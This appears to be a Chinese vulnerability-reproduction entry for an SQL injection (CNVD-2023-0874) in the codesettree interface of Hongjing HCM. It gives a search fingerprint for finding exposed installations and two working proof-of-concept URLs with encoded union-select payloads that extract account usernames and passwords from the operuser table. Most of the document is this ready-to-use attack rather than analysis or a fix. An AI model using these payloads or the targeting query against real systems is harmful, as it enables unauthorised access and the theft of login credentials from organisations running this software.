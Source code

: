 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

宏景 HCM

## 网络测绘

```
app="HJSOFT-HCM"
```

## 漏洞复现

登陆页面

![image-20230704113309837](./images/image-20230704113309837.png)

验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![image-20230704113329354](./images/image-20230704113329354.png)